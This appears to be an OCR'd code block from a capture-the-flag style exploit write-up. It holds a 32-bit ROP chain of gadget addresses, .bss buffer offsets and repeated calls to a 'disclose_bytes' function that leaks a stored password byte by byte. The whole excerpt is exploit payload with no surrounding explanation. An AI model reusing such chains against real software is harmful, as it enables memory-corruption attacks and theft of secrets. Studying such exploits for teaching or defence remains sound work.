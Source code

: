 >```
>We can extract the following ROP-chain:
>
>0x80b4e10 ; function that finds terminating null-byte
>0x810503c ; pop esi/pop edi/ret
>0x816d900 ; .bss var1 (located in choice_buffer 0x816D8C0. choice_buffer[64: ])
>0x8119340 ; address of password
>0x80c5050 ; some function who cares
>0x810503c ; pop esi/pop edi/ret
>0x816d8c7 ; .bss var2 (located in choice_buffer 0x816D8C0. choice_buffer[7: ])
>0x0000
>0x80c51b0 ; some other function who cares
>0x810503b ; pop ebx/pop esi/pop edi/ret
>0x0003
>0x816d908 ; .bss var3 (located in choice_buffer 0x816D8C0. choice_buffer[72: ])
>0x0017
>0x8049390 ; disclose_bytes(keyword, byte_count)
>0x810503c ; pop esi/pop edi/ret
>0x816d900 ; .bss var1
>0x0007
>0x8049390 ; disclose_bytes(keyword, byte_count)
>0x810503c ; pop esi/pop edi/ret
>0x816d900 ; .bss var1
>0x0009
>0x8049390 ; disclose_bytes(keyword, byte_count)
>0x810503c ; pop esi/pop edi/ret
>0x816d900 ; .bss var1
>0x000b
>0x8049390 ; disclose_bytes(keyword, byte_count)
>0x810503c ; pop esi/pop edi/ret
>0x816d900 ; .bss var1
>0x000d
>0x8049390 ; disclose_bytes(keyword, byte_count)
>0x810503c ; pop esi/pop edi/ret
>0x816d900 ; .bss var1
>0x000f
>0x8049390 ; disclose_bytes(keyword, byte_count)
>0x810503c ; pop esi/pop edi/ret
>0x816d900 ; .bss var1
>0x0011
>0x8049390 ; disclose_bytes(keyword, byte_count)
>0x810503c ; pop esi/pop edi/ret
>0x816d900 ; .bss var1
>0x0013
>0x8049390 ; disclose_bytes(keyword, byte_count)
>0x810503c ; pop esi/pop edi/ret
>0x816d900 ; .bss var1
>0x0015
>0x8049390 ; disclose_bytes(keyword, byte_count)
>0x810503c ; pop esi/pop edi/ret
>0x816d900 ; .bss var1
>0x0017
>0x8049390 ; disclose_bytes(keyword, byte_count)
>0x810503c ; pop esi/pop edi/ret
>0x816d900 ; .bss var1
>0x0019
>0x8049390 ; disclose_bytes(keyword, byte_count)
>0x810503c ; pop esi/pop edi/ret
>0x816d900 ; .bss var1
>0x001b
>0x8049390 ; disclose_bytes(keyword, byte_count)
>0x810503c ; pop esi/pop edi/ret
>0x816d900 ; .bss var1
>0x001d